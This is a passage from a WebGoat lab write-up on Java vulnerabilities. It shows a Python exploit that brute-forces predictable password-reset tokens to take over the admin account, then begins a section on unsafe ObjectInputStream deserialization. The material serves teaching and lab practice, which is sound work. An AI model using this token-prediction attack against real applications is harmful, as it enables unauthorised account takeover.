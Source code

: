 Doesn't seem very random.

#### Exploiting predictable random tokens
Our exploit should first request password reset for "admin" user (`POST /challenge/7`), call Java code to generate some tokens for different secret's length and try them on the app (`GET /challenge/7/reset-password/{link}`):

```py
def GeneratePasswordResetLink(session, user):
	session.post(
		url = webgoat_url + "/challenge/7",
		data = {"email" : user}
		)

def GeneratePasswordResetTokenJava(user, length):
	secret = ''.join(random.choice(string.ascii_lowercase) for _ in range(length))
	token = subprocess.check_output(["java", "RandomExperiment", "generate_token", user, secret], cwd = "./RandomExperiment/", stderr=subprocess.DEVNULL)
	return token.decode("utf-8").strip()

def ResetPassword(session, reset_token):
	response = session.get(
		url = webgoat_url + "/challenge/7/reset-password/" + reset_token
		)
	return response.text


GeneratePasswordResetLink(session, "admin@domain.tld")
for i in range(1,30):
	password_reset_token = GeneratePasswordResetTokenJava("admin", i)
	result = ResetPassword(session, password_reset_token)
	if 'Success' in result:
		print("Secret length: " + str(i))
		print("Token: " + password_reset_token)
		print(result)
		break
```

Result:

![randomExploit](../images/2021-06-23-Vuln_discovery_Java/randomExploit.png)

### Deserialization of untrusted data
This is a very basic example of deserialization exploitation. It's WebGoat, after all.
#### ObjectInputStream
Java's `ObjectInputStream` is dangerous when used to deserialize untrusted data. So we can already start looking for it's usage in the application.
